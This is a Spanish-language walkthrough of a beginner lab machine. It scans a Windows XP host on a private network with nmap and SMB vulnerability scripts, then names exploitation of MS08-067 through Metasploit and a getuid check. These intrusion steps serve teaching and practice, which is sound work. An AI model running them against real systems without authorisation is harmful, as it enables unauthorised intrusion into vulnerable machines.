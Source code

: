 ```yaml
---
description: '🔍 Dificultad: Muy Fácil'
---
```


# Experience

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.139
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.139 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (7).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, los puertos **135, 139 y 445** pertenecientes a servicios de **Microsoft RPC, NetBIOS-SSN y Microsoft-DS** están abiertos, por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445 -v 192.168.1.139
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos un Windows XP. Revisamos el puerto 445.

```bash
nmap -p445 --script="smb-vuln-*" 192.168.1.139
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-01-31 185518.png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vamos explotar MS08-067 con Metasploit.

```bash
set RHOSTS 192.168.1.139
exploit
```

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
getuid
```

aún somos **root.**

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
